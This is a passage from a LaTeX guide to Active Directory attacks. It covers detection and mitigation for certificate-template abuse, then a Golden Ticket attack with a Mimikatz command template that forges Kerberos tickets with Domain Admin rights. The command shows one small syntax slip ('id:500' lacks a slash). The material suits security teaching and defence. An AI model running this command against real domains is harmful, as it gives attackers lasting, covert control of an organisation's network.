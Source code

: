 \textbf{Impact:} Persistent Domain Admin access without touching passwords or hashes.

\subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Monitor for certificate requests with alternate UPNs or SANs.
        \item Use SIEM to alert on PKI enrollment events from unusual accounts.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Remove \texttt{ENROLLEE\_SUPPLIES\_SUBJECT} where unnecessary.
        \item Restrict template enrollment to specific groups.
        \item Enable AD CS auditing and monitor CA database activity.
    \end{itemize}
\end{itemize}

\section{5. Golden Ticket Attack}

\subsection{Attacker View}
Once an attacker has the \texttt{krbtgt} account hash, they can forge TGTs for any account with any group membership.

\textbf{Steps:}
\begin{lstlisting}
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator `
/domain:<DomainName> /sid:<DomainSID> `
/krbtgt:<krbtgtHash> id:500 /groups:512 `
/startoffset:0 /endin:600 /renewmax:10080 /ptt"'
\end{lstlisting}

\textbf{Impact:} Unlimited persistence until the \texttt{krbtgt} password is reset \textbf{twice}.

